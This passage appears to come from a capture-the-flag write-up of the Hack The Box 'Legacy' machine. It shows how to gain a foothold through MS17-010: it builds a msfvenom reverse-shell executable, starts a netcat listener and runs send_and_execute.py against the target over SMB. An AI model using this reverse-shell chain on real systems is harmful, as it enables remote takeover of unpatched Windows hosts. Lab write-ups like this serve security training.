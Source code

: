 ![Unstable Reverse Shell](/assets/img/htb-legacy/unstable-shell.png)
_Unstable Reverse Shell_

Doing further reading, I found [this GitHub repository](https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py) which contains an interesting script - `send_and_execute.py`. This script allows us to send a file to the operating system via the SMB pipe and execute it.

Having this in mind, we can craft a `msfvenom` reverse shell and execute it to gain initial foothold.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=9999 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe

nc -lvnp 9999

python send_and_execute.py 10.10.10.4 ms17-010.exe
```
